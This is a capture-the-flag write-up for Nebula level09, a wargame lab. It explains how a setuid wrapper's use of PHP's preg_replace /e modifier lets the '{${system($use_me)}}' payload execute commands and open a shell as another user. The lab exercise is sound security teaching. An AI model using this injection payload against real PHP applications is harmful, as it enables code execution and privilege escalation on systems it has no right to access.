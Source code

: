 # For level09 in nebula

> There’s a C setuid wrapper for some vulnerable PHP code…
>  
> To do this level, log in as the level09 account with the password level09. Files for this level can be found in /home/flag09.

In `/home/flag09`, we have 2 files.
```
-rwsr-x--- 1 flag09 level09 7240 2011-11-20 21:22 flag09
-rw-r--r-- 1 root   root     491 2011-11-20 21:22 flag09.php
```

`./flag09` is the setuid wrapper program. It runs `flag09.php` as the user `flag09`. If somehow we can make `flag09.php` execute `getflag`, we'd win.

We are given the source code for the file `flag09.php`.
```
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

The php program takes 2 arguments, then passes these 2 arguments to the function `markup`. `argv[1]` is the filename of the file that gets read into a string. The string is stored in `$contents`. `$contents` then goes through 3 regex manipulations. 

---
1. `$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);` 

It searches for strings in `$contents` that fit the regex `"/(\[email (.*)\])/e"`.  `"/(\[email (.*)\])"` matches strings like "\[email user@email.com\]".

`/e` is a pattern modifier that allows us to use PHP code within our regular expression. In this case, our PHP code is the `spam` function.

> Outside a character class, a backslash followed by a digit greater than 0 (and possibly further digits) is a back reference to a capturing subpattern earlier (i.e. to its left) in the pattern, provided there have been that many previous capturing left parentheses.

The `\2` in `spam("\2")` (I removed the escaping characters to make it simpler to see) is called a [back reference](http://php.net/manual/en/regexp.reference.back-references.php). In this case, it refers to `(.*)` in `"/(\[email (.*)\])/e"`. As an example, if `$contents` has the string "\[email user@email.com\]", this is how the `spam` function call looks like: `spam("user@email.com")`. `spam` then changes the string to "user AT email dot com". `$contents`now has the string "user AT email dot com"

2. `$contents = preg_replace("/\[/", "<", $contents);`

It simply replaces the string "[" with "<". 

3. `$contents = preg_replace("/\[/", "<", $contents);`

It simply replaces the string "]" with ">". 
---

The manipulated string is then printed out. I tested it out by creating a file with the string "\[email solomon@mail.com\]". It works exactly as described.
```
level09@nebula:/home/flag09$ touch ~/file
level09@nebula:/home/flag09$ echo [email solomon@mail.com] > ~/file 
level09@nebula:/home/flag09$ ./flag09 ~/file ~/file
solomon AT mail dot com
```

There are 2 possible vulnerabilities in this PHP program.
1. Pattern modifier `/e`
2. The unused variable `$use_me` supplied to the program as `argv[2]`.

### Exploiting the vulnerabilities.

Both vulnerabilities come hand in hand.

This [stackoverflow question](https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier) is a good starting point. It gives us an example of the `/e` pattern modifier vulnerability.
```
$password = 'secret';
...
$input = $_GET['input'];
echo preg_replace('|^(.*)$|e', '"\1"', $input);
```
If a malicious user keyed in "$password" as the input, the program would output "secret". This is because `echo preg_replace('|^(.*)$|e', '"\1"', $input);` essentially becomes `echo $password`. The `/e` pattern modifier allows us to access variables that would otherwise not be. One such variable here is `$use_me`. 
```
level09@nebula:/home/flag09$ cat /tmp/2file 
[email $use_me]
level09@nebula:/home/flag09$ ./flag09 /tmp/2file getflag
getflag
```
Our goal is to run `getflag` as user `flag09`. Now, we passed "getflag" as a string to the program. How do we cause it to be executed?

PHP has a function called `system` that executes external commands. Let's try calling `system('getflag')`. The answer lies in [Complex (curly) syntax](http://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex).

This part of the manual is our interest.
> `echo "This is the value of the var named by the return value of getName(): {${getName()}}";`

Let's apply this concept to our challenge.
```
level09@nebula:/home/flag09$ cat /tmp/2file 
[email {${system($use_me)}}]
level09@nebula:/home/flag09$ ./flag09 /tmp/2file getflag
You have successfully executed getflag on a target account
PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1
```

Essentially, `print $output;` becomes `print {${system($use_me)}}`. `system('getflag')` is executed, and `print` prints its output.

In fact, if we so wish, we can get a bash shell!
```
level09@nebula:/home/flag09$ ./flag09 /tmp/2file sh
sh-4.2$ whoami
flag09
sh-4.2$
```
This shows how vulnerable this PHP file really is!

END
